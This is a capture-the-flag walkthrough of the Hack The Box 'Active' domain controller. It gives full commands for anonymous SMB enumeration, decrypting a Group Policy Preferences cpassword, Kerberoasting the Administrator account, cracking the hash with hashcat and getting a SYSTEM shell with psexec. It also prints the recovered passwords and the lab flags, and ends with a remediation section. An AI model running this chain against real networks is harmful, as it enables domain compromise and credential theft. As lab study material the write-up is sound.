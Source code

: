 # Summary

Active is a Windows Server 2008 R2 SP1 dinosaur running as a domain controller. Enumerating shares reveals a Group Policy Preference file called Groups.xml in a public location. In ancient times, this was a technique used to set the RID 500 user password on domain hosts. Unfortunately, the battle-mages of lore have long divined the secrets of cracking these encrypted passwords (Microsoft posted the key online) leading to access to the SVC_TGS user. Checking for kerberoastable users you will find the Administrator is vulnerable (cringe). Cracking the Administrator ticket, you compromise the domain. 
# Actions

Every good engagement begins with an nmap scan:

![[Pasted image 20250630142639.png]]

We need to go gentle with this one - its old.

I prioritize further enumeration as follows:
1. SMB
2. RPC
3. LDAP
4. Kerberos

I'll go ahead and chuck that domain name into my /etc/hosts
```
echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts
```

I check for anonymous shares, the Replication share is open for anonymous login:

```
netexec smb active.htb -u '' -p '' --shares
```

![[Pasted image 20250630144639.png]]

We can use netexec's "spider_plus" module to crawl through readable shares and return the secrets within.

```
netexec smb active.htb -u '' -p '' -M spider_plus
```

To my young eyes, it appears that there is not much in there:

![[Pasted image 20250630144859.png]]


I go ahead and grab all of the files:

```
netexec smb active.htb -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True

```
Everything looks like normal GP stuff. But then in this file:

Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

I find this:
```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```
I have no idea what that is so I continue my enumeration:

```
netexec ldap active.htb -u '' -p '' --users
```
no anonymous bind

```
rpcclient -U "" -N active.htb
```
```
enumdomusers
```
denied

```
netexec smb active.htb -u '' -p '' --rid-brute
```
nope

```
sudo responder -I tun0 -A
```
```
kerbrute userenum -d active.htb --dc active.htb -o valid_ad_users -v /usr/share/wordlists/statistically-likely-usernames/jsmith.txt
```
So ya nothing from these techniques.

I furiously consult the oracle for wisdom on "cpassword active directory", eventually it reveals an ancient scroll discussing the gpp-decrypt tool. I tried to run it on my Kali box and find it is installed.

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Faster than you can say floppy disk I had a password:

```
GPPstillStandingStrong2k18
```

I tested it using netexec smb:
```
netexec smb active.htb -u 'svc_tgs' -p 'GPPstillStandingStrong2k18'
```
![[Pasted image 20250630154020.png]]

Pwned.

I have decided that after I get a valid user on a domain, I will do the following in order:
1. check for kerberoasting (impacket-GetUserSPNs)
2. check for asreproasting (impacket-GetNPUsers)
3. Run bloodhound

On this box I did not get past step 1:

```
impacket-GetUserSPNs -dc-ip active.htb active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

![[Pasted image 20250630154142.png]]


I cringe.

After I get over it,  I take some actions to grab the ccache file and hash for cracking.

With the GetUserSPNs tool, there are 2 options to get these things:
- -save will grab the ccache file (warning it will be in binary)
- -outputfile NAME will give you the hash for hashcat

$krb5tgs$23 hash types are hashcat mode 13100.

```
sudo hashcat -d 3 -m 13100 Administrator.krb5 /usr/share/wordlists/rockyou.txt
```

That cracked faster than a Napster download.

```
Ticketmaster1968
```

I went for system:

```
KRB5CCNAME=Administrator.ccache impacket-psexec active.htb/administrator@active.htb -k -no-pass
```

Tat didn't work so I used normal password login and I got shell as SYSTEM.

Technically I should have grabbed the SVC_TGS users hash first, but this box was so easy I just swooped right in for both at the same time:

the user was SVC_TGS - flag was in Desktop

```
8d84e0434726e49f70f77f1586dc8159
```

To be fancy I dropped out of my shell to try grabbing the administrator hash just using netexec:
```
netexec smb active.htb -u Administrator -p Ticketmaster1968 --spider C\$ --pattern txt
```
```
netexec smb active.htb -u Administrator -p Ticketmaster1968 --get-file \\Users\\Administrator\\Desktop\\root.txt ./root.txt
```
root.txt
```
1af2c18a5ca29455c58f010cd0c3132f
```
# Remediation

Storing RID500 user passwords this way is a technique that is almost 20 years old at this point. The other thing that came out of this time period was the Back Street Boys....

0xdf's walkthrough pointed to an article summarizing this shortcoming: https://adsecurity.org/?p=2288, I found it very informative. And now a history lesson:

Group Policy Preferences were a feature introduced by Microsoft to improve, among other things, storing domain configurations in plaintext in the SYSVOL. It enabled xml based preference files to be distributed to domain hosts in a structured way. It looks like prior to this a lot of the work was custom through VBS scripts.

A patch released in 2014 (KB2962486) prevented administrators from placing passwords in GPPs. Microsoft also released guidance to set XML permission denied checks.

Of course, the modern solution is the [“Local Administrator Password Solution” aka LAPS](https://adsecurity.org/?p=1790).

# Conclusion

This was a very easy box. The hardest part for me was not identifying the configuration vulnerability and having to do research on it. 
